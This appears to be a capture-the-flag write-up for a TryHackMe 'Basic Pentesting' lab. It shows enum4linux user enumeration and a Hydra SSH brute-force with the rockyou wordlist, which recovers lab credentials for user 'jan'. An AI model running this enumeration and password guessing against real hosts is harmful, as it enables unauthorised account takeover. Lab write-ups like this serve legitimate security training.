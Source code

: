 ```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/basic_pentesting]
└──╼ $enum4linux -a 10.10.163.160
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Jun  2 18:52:04 2021

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.163.160
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

----snip----

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

## What is the username?
According to our enum4linux output we got 'jan' as our username.

## What is the password?
Here we can use hydra for bruteforce the password.
```bash
┌─[visith@parrot]─[~/CTF/thm/basic_pentesting]
└──╼ $hydra -l jan -P /opt/seclist/rockyou.txt ssh://10.10.69.213
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-02 19:39:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.69.213:22/
[STATUS] 97.00 tries/min, 97 tries in 00:01h, 14344303 to do in 2464:40h, 16 active
[STATUS] 99.67 tries/min, 299 tries in 00:03h, 14344101 to do in 2398:41h, 16 active
[STATUS] 95.43 tries/min, 668 tries in 00:07h, 14343732 to do in 2505:09h, 16 active
[22][ssh] host: 10.10.69.213   login: jan   password: armando
```

Our credentials :

* login: jan   
* password: armando
